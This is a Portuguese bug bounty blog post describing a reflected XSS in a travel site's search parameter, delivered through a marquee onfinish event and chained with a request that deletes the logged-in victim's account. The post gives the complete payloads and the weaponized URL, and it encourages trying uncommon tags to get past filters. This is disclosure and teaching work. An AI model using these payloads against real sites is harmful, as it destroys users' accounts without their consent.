 ```yaml
---
layout: post
title:  "Bug Bounty 03 - Deleting User's Account via Reflected XSS chained with CSRF"
date:   2019-10-03 11:08:00
categories: All
img: bug_bounty.png
---
```

<p align="justify">
Salve rapaziada, no post de hoje irei falar sobre uma vulnerabilidade que encontrei no programa de bug bounty do <a href="https://bugcrowd.com/skyscanner" target="_blank">Skyscanner</a> na plataforma <a href="https://bugcrowd.com/" target="_blank">Bugcrowd</a>.
</p>

<p align="justify">
Enquanto navegava pela aplicação, notei que ao fazer uma busca, haviam vários parâmetros sendo passados pelo método GET, similar a este resultado:
</p>

<p>
<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/kef/190615/190622/?adults=1&children=0&adultsv2=1&childrenv2=&infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=home#results</code>
<br>
<br>
</p>

<p align="justify">
Dei uma no código fonte e vi que o a URL não era refletida no código fonte da aplicação.
<br>
<br>
Depois de pesquisar um pouco mais, notei que ao realizar uma busca por locais que não haviam viagens a URL era refletida no código. Utilizei o seguinte link para encontrar essa funcionalidade:
</p>

<p>
<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/ad/190411/190418/?adults=1&children=0&adultsv2=1&childrenv2=&]infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=home&ampcurrency=BOB</code>
<br>
<br>
<img src="/images/bug_bounty/bb03/bb03-00.png"/>
</p>

<p align="justify">
Com isso, fui injetando algumas tags nos parâmetros e vendo se eles eram refletidos sem algum tipo de sanitização. Notei que ao inserir algo no parâmetro <i>ref</i> ele era refletido no código fonte e adivinhem... sem nenhum tipo de sanitização.
<br>
<br>
Ao inserir determinados payloads, eu recebia um código 500 e a aplicação era redirecionada para uma página de erro.
<br>
<br>
Depois de algumas tentativas, decidi inserir uma tag que já havia utilizado em outros programas de bug bounty:
<br>
<code>">&ltmarquee>rapt00r&lt/marquee></code>
<br>
<br>
Esta tag cria uma espécie de painel (tipo aqueles painéis de LED que as letras ficam indo de uma ponta a outra do painel)
<br>
<br>
E bingo!!! O nosso marquee foi adicionado com sucesso no código. Infelizmente não tirei print dessa parte e nem do código fonte pois fiquei muito animado ao ver que realmente funcionou :)
</p>

<p align="justify">
Pesquisando um pouco mais sobre como utilizar a tag marquee, notei que ela suporta um evento JS chamado <i>onfinish</i>.
<br>
<br>
Então, quando o marquee era finalizado, podíamos executar códigos Javascript. Infelizmente também esqueci de tirar print dessa parte :(
<br>
<br>
Dependendo do tamanho do painel que era criado, demoraria muito para o banner finalizar. Então adicionei outros 2 atributos ao nosso marquee: <i>width</i> e <i>loop</i>, que servem para você definir o tamanho e o número de vezes que você quer que o banner apareça.
</p>

<p align="justify">
Bom, nesse ponto nosso payload estava da seguinte forma:
<br>
<code>">&ltmarquee width=0 loop=1 onfinish="alert(1)">rapt00r&lt/marquee></code>
<br>
</p>

<p>
Agora, o link junto com o payload ficaria da seguinte forma:
<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/ad/190411/190418/?adults=1&children=0&adultsv2=1&childrenv2=&]infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=home">&ltmarquee width=0 loop=1 onfinish="alert(1)">rapt00r&lt/marquee>&ampcurrency=BOB</code>
</p>

<p align="justify">
E quando o usuário acessava, ele veria o alerta em sua tela :)
</p>

<p align="justify">
Decidi então encadear com um CSRF para realizar o account takeover, mas infelizmente não havia a opção de troca de email (e para trocar a senha era necessário saber a senha antiga :/ )
</p>

<p align="justify">
Sem perder as esperanças, notei que havia a opção de deletar a conta. Hmm, interessante...
<br>
<br>
Para realizar a exclusão da conta era necessário enviar uma request (necessário que o usuário esteja autenticado) do tipo <i>DELETE</i> para o endpoint <i>/profile/user/delete-account</i> e a conta seria deletada.
</p>

<p align="justify">
Para finalizar, irei deixar o código da requisição que utilizei no evento JS para realizar a exclusão da conta do usuário que visitasse o link:
</p>

<code>var request = new XMLHttpRequest();
request.open('DELETE', 'https://www.skyscanner.com.br/profile/user/delete-account', false); 
request.send();</code>

<p align="justify">
<br>
E o link final para explorar a vulnerabilidade ficou da seguinte forma:
</p>
<p>
<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/ad/190411/190418/?adults=1&children=0&adultsv2=1&childrenv2=&]infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=https://www.google.com"/> &ltmarquee loop=1 width=0 onfinish="var request = new XMLHttpRequest(); request.open('DELETE', 'https://www.skyscanner.com.br/profile/user/delete-account', false); request.send();">&lt/marquee>&ampcurrency=BOB</code>
</p>

<p align="justify">
Como PoC desta vulnerabilidade, deixo um vídeo e vocẽs podem acessar pelo link:
<br>
<iframe width="560" height="315" src="https://www.youtube.com/embed/ZuyLvAPg-TQ" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</p>

<p align="justify">
É isso aí galera, recomendo utilizar outras tags além do <i>iframe, img, script</i>, pode ser que vocês consigam dar esse "bypass" da mesma forma que eu acabei de mostrar :)
</p>

Valeuuu !!!
